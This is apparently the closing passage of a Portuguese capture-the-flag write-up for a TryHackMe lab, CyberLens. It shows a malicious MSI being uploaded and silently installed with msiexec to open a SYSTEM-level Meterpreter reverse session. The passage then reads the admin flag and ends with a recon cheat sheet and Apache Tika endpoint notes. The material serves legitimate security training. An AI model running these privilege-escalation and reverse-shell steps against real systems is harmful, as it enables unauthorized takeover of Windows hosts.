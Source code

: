 ## 4) Subir e executar o MSI no alvo

Na sessão user atual:

```bash
upload elev.msi C:\\Windows\\Temp\\elev.msi
shell
msiexec /quiet /qn /i C:\Windows\Temp\elev.msi
```

**Handler recebe a nova sessão:**

```
[*] Meterpreter session N opened (...:4445 -> 10.201.54.143:XXXXX)
```

Confirme **SYSTEM**:

```bash
sessions -i N
getuid
# NT AUTHORITY\SYSTEM
```

---

# 👑 Admin Flag

Local padrão idem ao user.txt:

```bash
cd C:\\Users\\Administrator\\Desktop
ls
cat admin.txt
# THM{*****}
```

---

# 🧰 Comandos úteis (resumo rápido)

**Recon inicial**

```bash
ping -c 3 $ALVO | grep -o "ttl=[0-9]*"
nmap -sC -sV cyberlens.thm -oN svcnmap.txt
nmap -p-    cyberlens.thm -oN allnmap.txt
gobuster dir -u http://cyberlens.thm -w /usr/share/wordlists/dirb/big.txt -t 40
```

**Tika endpoints (referência)**

* `PUT /meta` (JSON/CSV) – metadados
* `PUT /tika` – extrai texto/HTML/XML
* `PUT /rmeta` – metadados **recursivos** (ZIP/DOCX/PDF)
  *(No nosso caso usamos o módulo MSF que automatiza a exploração do parser vulnerável.)*
